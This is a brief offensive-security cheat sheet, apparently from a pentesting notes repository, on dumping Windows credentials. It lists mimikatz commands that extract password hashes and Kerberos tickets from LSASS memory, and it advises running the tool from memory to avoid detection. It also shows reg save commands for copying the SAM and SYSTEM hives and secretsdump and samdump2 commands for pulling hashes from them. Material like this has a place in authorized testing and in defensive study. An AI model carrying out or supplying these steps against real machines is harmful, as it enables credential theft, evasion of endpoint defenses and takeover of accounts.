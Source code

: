 # Dump Password Hashes

Since implementation of Kerberos authentication, password hashes must be stored somewhere in memory (in order to renew TGT requests). In modern Windows versions hashes are stored in the LSASS memory space.

## Mimikatz

We can use mimikatz (from an administrative console) to gain access to the hashes stored on the target.

**Note:** In order to avoid mimikatz as standalone application, we can try to execute it directly from memory or built-in tools like Task Manager to dump the entire LSASS process memory and extract the data from another machine.

### Users Logged On Hashes

In order to dump hashes for all users logged on to the current workstation or server (including RDP connections), we execute:

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

### Users Logged On TGT & TGS Tickets

We can use mimikatz to exract TGT & TGS Kerberos tickets to exploit it's authentication mechanism.

```
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets
```

_____

## Obtaining Windows SAM & SYSTEM files

> If we have access to SAM and SYSTEM files we can use impacket-secreptsdump to extract the user hashes:

Files are located at: C:\Windows\System32\config\, obtain them with:

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Now execute use one of the following techniques in order to extract the hashes:

```bash
impacket-secretsdump -sam $SAMFILE -system $SYSTEMFILE local
```

```bash
samdump2 system sam
```
